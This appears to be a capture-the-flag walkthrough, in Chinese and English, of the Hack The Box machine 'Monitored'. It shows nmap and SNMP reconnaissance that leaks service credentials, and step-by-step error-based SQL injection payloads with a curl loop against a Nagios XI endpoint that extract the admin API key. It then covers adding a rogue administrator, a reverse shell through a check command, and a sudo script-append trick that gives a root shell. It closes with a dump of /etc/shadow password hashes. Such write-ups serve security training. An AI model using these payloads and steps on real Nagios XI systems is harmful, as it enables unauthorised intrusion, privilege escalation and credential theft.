

Medium) Monitored

Recon & Enum
export IP=10.10.11.248
nmap -sC -A -p- --min-rate 1000 -T4 $IP
Nmap scan report for 10.10.11.248
Host is up (0.17s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
| 3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
| 256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_ 256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp open http Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open ldap OpenLDAP 2.2.X - 2.3.X
443/tcp open ssl/http Apache httpd 2.4.56 ((Debian))
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after: 2297-08-25T21:46:55
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Nagios XI
| tls-alpn:
|_ http/1.1
5667/tcp open tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
ldapsearch -H "ldap://$IP" -x -s baseferoxbuster -u https://nagios.monitored.htb/ -d 1 -k

- search CVE
# 需要认证利用
https://www.cvedetails.com/cve/CVE-2023-48085/
https://www.cvedetails.com/cve/CVE-2023-48084/
一番查找无果后，开始 UDP 端口扫描
nmap -sU -sC -A -p- --min-rate 1000 -T4 $IP
PORT STATE SERVICE VERSION
123/udp open ntp NTP v4 (unsynchronized)
161/udp open snmp SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-netstat:
| TCP 0.0.0.0:22 0.0.0.0:0
| TCP 0.0.0.0:389 0.0.0.0:0
| TCP 127.0.0.1:25 0.0.0.0:0
| TCP 127.0.0.1:3306 0.0.0.0:0
| TCP 127.0.0.1:5432 0.0.0.0:0
| TCP 127.0.0.1:7878 0.0.0.0:0
...
| snmp-sysdescr: Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64
|_ System uptime: 5h03m30.11s (1821011 timeticks)
| snmp-win32-software:
| adduser_3.118+deb11u1_all; 2023-11-09T10:00:55
...
snmp-interfaces:
| lo
| IP address: 127.0.0.1 Netmask: 255.0.0.0
| Type: softwareLoopback Speed: 10 Mbps
| Traffic stats: 2.82 Mb sent, 2.82 Mb received
| VMware VMXNET3 Ethernet Controller
| IP address: 10.10.11.248 Netmask: 255.255.254.0
| MAC address: 00:50:56:b9:08:11 (VMware)
| Type: ethernetCsmacd Speed: 4 Gbps
|_ Traffic stats: 611.99 Mb sent, 254.68 Mb received
...
| 568:
| Name: sh
| Path: /bin/sh
| Params: -c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
| 569:
| Name: systemd-logind
| Path: /lib/systemd/systemd-logind
...
发现 Snmp 有进程信息，其中包含凭据 svc/XjH7VCehowpR1xZB
Shell as User - nagios
- Web 页面尝试登录

另一个目录可以登录成功，说明密码正确

结合前面发现的 Nagios XI 漏洞，尝试使用 API 的方式进行认证

尝试给这个 url 发送 login 的 POST 请求，get token

看来并没有禁用 api 的调用，找到漏洞相关的 API 接口

找到注入点

- 查看数据库版本
2 AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-- -

- 查看数据库数量
2 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),count(schema_name),CHAR(126)) FROM information_schema.schemata)),null)-- -

一共两个数据库
- Dump 库
2 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 0,1)),null)-- -

发现数据库 nagiosxi
- 查看表的数量
2 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),count(table_name),CHAR(126)) FROM information_schema.TABLES WHERE table_schema="nagiosxi")),null)-- -

共 22 个表
- Dump 表
2 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema="nagiosxi" LIMIT 0,1)),null)-- -

发现 User 表
- 查看字段数量
2 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),count(column_name),CHAR(126)) FROM information_schema.columns WHERE table_schema="nagiosxi" AND TABLE_NAME="xi_users")),null)-- -

发现 17 个字段
- Dump 字段
2 AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE table_schema="nagiosxi" AND TABLE_NAME="xi_users" LIMIT 0,1)),null)-- -

发现所有字段
for i in `seq 17`; do curl 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?token=18667b8dddec25e4e79776e636b9f474e91d0633' -X POST -d "action=acknowledge_banner_message&id=2%20AND%20updatexml(rand()%2cconcat(0x3a%2c(SELECT%20concat(CHAR(126)%2ccolumn_name%2cCHAR(126))%20FROM%20information_schema.columns%20WHERE%20table_schema%3d%22nagiosxi%22%20AND%20TABLE_NAME%3d%22xi_users%22%20LIMIT%20$i%2c1))%2cnull)--%20-" -H "Cookie: nagiosxi=c3n9ja5or9or5ng32ledejamva" -k; done

username
password
name
email
backend_ticket
enabled
api_key
api_enabled
login_attempts
last_attempt
last_password_change
last_login
last_edited
last_edited_by
created_by
created_time
这里管理员的密码 Hash 很难爆破出来，因此直接拿管理员的 API Key 使用
- Dump 数据（username, api_key）
2 AND updatexml(rand(),concat(0x3a,substring((SELECT concat(CHAR(126),username,CHAR(126),api_key,CHAR(126)) FROM nagiosxi.xi_users LIMIT 0,1),1)),null)-- -
2 AND updatexml(rand(),concat(0x3a,substring((SELECT concat(CHAR(126),username,CHAR(126),api_key,CHAR(126)) FROM nagiosxi.xi_users LIMIT 0,1),29)),null)-- -
2 AND updatexml(rand(),concat(0x3a,substring((SELECT concat(CHAR(126),username,CHAR(126),api_key,CHAR(126)) FROM nagiosxi.xi_users LIMIT 0,1),57)),null)-- -

三段拼接得到结果
~nagiosadmin~IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL~
---
nagiosadmin/IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
在 VulnDB 中的历史漏洞利用处发现添加管理员的接口

添加一个管理员 test569/Admin@123

- 在后台找到一个添加命令的地方
https://nagios.monitored.htb/nagiosxi/includes/components/ccm/xi-index.php


- 在添加服务页面，添加新的服务

- 添加对应参数，Reverse Shell


点击运行检查

Shell as Root
- 检查 sudo 权限

检查脚本所在目录，发现部分有可写权限

检查 sudo nopasswd 运行的脚本中所调用的子脚本，发现一个 Vuln

- 构造 Payload
for i in `seq 1000`; do if [[ $(tail /usr/local/nagiosxi/scripts/reset_config_perms.sh -n 1 | grep "bash -p") ]]; then break; else echo '/bin/bash -p' >> /usr/local/nagiosxi/scripts/reset_config_perms.sh; fi; done 1>/dev/null 2>/dev/null & sudo /usr/local/nagiosxi/scripts/reset_config_perms.sh
# 然后清除捷径
sed 's/\/bin\/bash -p//g' -i /usr/local/nagiosxi/scripts/reset_config_perms.sh

Dump Hash
root:$y$j9T$LLy.W6CI0K6McgXMKio0i1$1omBVYjsg.8qEzyjkL.3kXtpAMZNc7x9CMwOnrwltJ8:19671:0:99999:7:::
daemon:*:19670:0:99999:7:::
bin:*:19670:0:99999:7:::
sys:*:19670:0:99999:7:::
sync:*:19670:0:99999:7:::
games:*:19670:0:99999:7:::
man:*:19670:0:99999:7:::
lp:*:19670:0:99999:7:::
mail:*:19670:0:99999:7:::
news:*:19670:0:99999:7:::
uucp:*:19670:0:99999:7:::
proxy:*:19670:0:99999:7:::
www-data:*:19670:0:99999:7:::
backup:*:19670:0:99999:7:::
list:*:19670:0:99999:7:::
irc:*:19670:0:99999:7:::
gnats:*:19670:0:99999:7:::
nobody:*:19670:0:99999:7:::
_apt:*:19670:0:99999:7:::
systemd-network:*:19670:0:99999:7:::
systemd-resolve:*:19670:0:99999:7:::
messagebus:*:19670:0:99999:7:::
systemd-timesync:*:19670:0:99999:7:::
avahi-autoipd:*:19670:0:99999:7:::
sshd:*:19670:0:99999:7:::
svc:$y$j9T$JKvaJakBax4xU3.kZFe221$D2o.A3O6EXWgKPzpD8Gky7cPbXZ/a9Ey/9/OM1AoE80:19671:0:99999:7:::
systemd-coredump:!*:19670::::::
mysql:!:19670:0:99999:7:::
ntp:*:19670:0:99999:7:::
postgres:*:19670:0:99999:7:::
Debian-exim:!:19670:0:99999:7:::
uuidd:*:19670:0:99999:7:::
openldap:!:19670:0:99999:7:::
Debian-snmp:!:19670:0:99999:7:::
snmptt:*:19670:0:99999:7:::
shellinabox:*:19670:0:99999:7:::
nagios:$y$j9T$EnaS672RtIQB0i6zh.ooO/$gkWPA1PKoIQH.ACc6NVntLPY9x55i08J4S6c1Rpvqn.:19671:0:99999:7:::
_laurel:!:19698::::::